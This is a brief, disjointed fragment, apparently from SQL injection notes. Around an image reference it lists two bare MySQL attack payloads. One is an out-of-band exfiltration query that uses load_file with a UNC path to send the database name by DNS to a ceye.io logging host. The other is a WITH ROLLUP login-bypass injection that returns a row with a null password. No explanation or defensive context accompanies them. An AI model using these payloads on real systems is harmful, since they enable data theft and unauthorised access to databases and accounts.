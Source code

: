 ![Alt text](68.png)
```mysql
select load_file(concat('\\\\',(select database()),'.vmey6j.ceye.io\\hhh'));
```


SELECT * FROM users WHERE username='' =0 group by  password with ROLLUP having password is null#;